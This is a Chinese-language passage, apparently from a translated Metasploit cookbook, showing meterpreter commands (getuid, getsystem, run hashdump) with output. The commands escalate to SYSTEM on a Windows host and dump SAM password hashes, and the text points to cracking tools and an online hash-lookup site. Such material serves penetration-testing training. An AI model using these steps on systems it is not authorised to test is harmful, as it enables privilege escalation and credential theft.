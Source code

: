 为了解码转储的哈希，我们将需要一个 NTLM/LM 解密器。有不同的工具可用。其中一些使用暴力破解技术（John the riper，pwdump），而另一些使用彩虹表（彩虹破解）。

## 如何做到这一点...

我们将从一个活动的 meterpreter 会话开始。我假设您已经渗透了目标并获得了一个 meterpreter 会话。您可以参考第四章中的配方，*客户端利用和防病毒绕过*，以获取有关入侵 Windows 机器的更多详细信息。脚本的使用简单直接。让我们首先检查目标机器上的权限。我们必须拥有系统权限才能提取哈希。我们将使用`getuid`命令来了解我们当前的权限级别。为了提升我们的权限，我们将使用`getsystem`命令。

```
meterpreter > getuid
Server username: DARKLORD-PC\DARKLORD
meterpreter > getsystem
...got system (via technique 4).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM 
```

## 工作原理...

现在我们在目标上拥有系统权限，所以我们可以继续尝试 hashdump 脚本。

```
meterpreter > run hashdump
[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 78e1241e98c23002bc85fd94c146309d...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hashes...
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DARKLORD:1000:aad3b435b51404eeaad3b435b51404ee:3dbde697d71690a769204beb12283678::: 
```

您可以看到脚本已成功从 SAM 文件中提取了密码哈希。现在我们可以使用不同的工具来破解这个哈希。一些知名的工具有 John the riper、pwdump、rainbow crack 等。

## 还有更多...

让我们看看除了使用之前讨论的工具之外，解密哈希的另一种方法。

### 在线密码解密

有一个非常流行的网站用于解密 NTLM/LM 哈希[`www.md5decrypter.co.uk/`](http://www.md5decrypter.co.uk/)。它通过将哈希与其庞大的哈希数据库进行匹配来找到密码。这是一种有效且快速破解简单和弱密码的技术。以下截图显示了我们之前转储的哈希的解码结果：

![在线密码解密](img/7423_06_01.jpg)

